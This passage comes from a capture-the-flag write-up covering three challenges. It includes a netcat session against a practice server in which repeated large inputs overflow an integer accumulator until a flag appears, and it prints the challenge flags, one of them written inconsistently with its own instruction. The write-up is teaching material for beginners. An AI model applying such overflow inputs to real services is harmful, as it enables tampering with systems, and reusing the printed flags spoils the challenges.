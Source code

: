 - Make sure that you add a ```0x``` in front of the output or the flag will be incorrect.

Flag: ```Oxc0ded```

## Accumulator

- **Foreword:** This challenge was rated easy and was only worth 10 points, even though it was a buffer overflow challenge. It can seem difficult to beginners, however this is a fairly easy challenge **if** you know what you are doing.

- The challenge is a simple buffer overflow challenge. Below is how I solved it.

```bash
❯ nc rivit.dev 10009
acc = 0
Enter a number: 1111
acc = 1111
Enter a number: 11111111111
You can't enter the negative number!
acc = 1111
Enter a number: 111111111
acc = 111112222
Enter a number: 1111111111
acc = 1222223333
Enter a number: 11111111111111
acc = 1252939692
Enter a number: 1111111111111111
You can't enter the negative number!
acc = 1252939692
Enter a number: 11111111111
You can't enter the negative number!
acc = 1252939692
Enter a number: 11111111111111
acc = 1283656051
Enter a number: 11111111111111111
acc = 1935244090
Enter a number: 11111111111111111111
You can't enter the negative number!
acc = 1935244090
Enter a number: 11111111111111111
You win! acc = -1708135167
CTFlearn{n3x7_7yp3_0f_0v3rf0w}
❯
```

Flag: ```CTFlearn{n3x7_7yp3_0f_0v3rf0w}```

## Time Traveller

- To find the email, we can use a tool called "The Wayback Machine" and look for a snapshot on December 31 1996. 
- If you are having trouble getting to the page, click [here](https://web.archive.org/web/19961231235847/http://www.nasa.gov/) for the link.
